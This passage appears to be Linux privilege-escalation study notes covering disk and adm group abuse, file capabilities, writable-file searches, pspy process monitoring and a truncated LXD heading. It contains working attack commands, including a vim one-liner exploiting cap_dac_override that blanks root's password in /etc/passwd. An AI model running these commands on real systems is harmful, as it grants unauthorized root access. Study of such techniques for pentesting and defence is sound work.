 9. **Disk Group Access:**
   - Users in the disk group have full access to devices in `/dev`, like `/dev/sda1`.
   - Example: Use `debugfs` to access the entire file system with root privileges.

10. **ADM Group Access:**
    - Members in the adm group can read all logs in `/var/log`.
    - User `secaudit` is a member of groups `secaudit` and `adm`.

**Capabilities**
#Capabilities
 
- Enumerate Capabilities : 

```sh
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

- Exploiting  Capabilities: 
```sh
getcap /usr/bin/vim.basic
```

- We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```sh
/usr/bin/vim.basic /etc/passwd
```

- We also can make these changes in a non-interactive mode:

```sh
echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

 
### Service-based Privilege Escalation

- Writable files or directories:
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

- Download pspy : 
```sh
wget https://github.com/DominicBreuker/pspy
```

- Run pspy : 
```sh
#print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000
```

**LXD ** 
#LXD2
